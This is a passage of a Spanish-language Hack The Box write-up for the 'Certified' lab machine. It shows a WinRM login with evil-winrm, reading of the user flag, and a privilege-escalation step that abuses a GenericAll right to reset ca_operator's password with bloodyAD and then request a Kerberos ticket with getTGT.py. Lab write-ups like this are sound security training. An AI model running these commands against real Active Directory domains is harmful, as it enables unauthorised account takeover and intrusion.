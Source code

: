 ```bash
```

En el bloodhound, podemos ver que este usuario tiene privilegios para hacer PSRemote (conectarse con WinRM), asi que utilizando `evil-winrm` podemos conectarnos al host. Pero antes debemos ajustar nuestro `krb5.conf` con lo siguiente en la sección de realms ya que dicha herramienta utiliza las implementaciones nativas de Linux para Kerberos:

```conf
    CERTIFIED.HTB = {
		kdc = dc01.certified.htb
	}
```

Ahora nos podremos conectar sin problemas:

```bash
❯ evil-winrm -i dc01.certified.htb -r CERTIFIED.HTB
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents>
```

En el escritorio de este usuario encontraremos la primera flag.

```bat
*Evil-WinRM* PS C:\Users\management_svc\Desktop> ls


    Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/18/2025  10:02 AM             34 user.txt
*Evil-WinRM* PS C:\Users\management_svc\Desktop> cat user.txt
784ac08f59d9cd7b8a276a82e4******
```

## Escalada de privilegios

Como ya sabemos, el usuario `management_svc` tiene el permiso `GenericAll` sobre `ca_operator`, por lo que podemos reiniciarle la contraseña y luego obtener un ticket como dicho usuario:

```bash
❯ bloodyAD --host dc01.certified.htb -d certified.htb -u management_svc -k set password ca_operator 'Password123!'
[+] Password changed successfully!
❯ getTGT.py 'certified.htb/ca_operator:Password123!'
Impacket v0.13.0.dev0+20241127.154729.af51dfd1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ca_operator.ccache
```
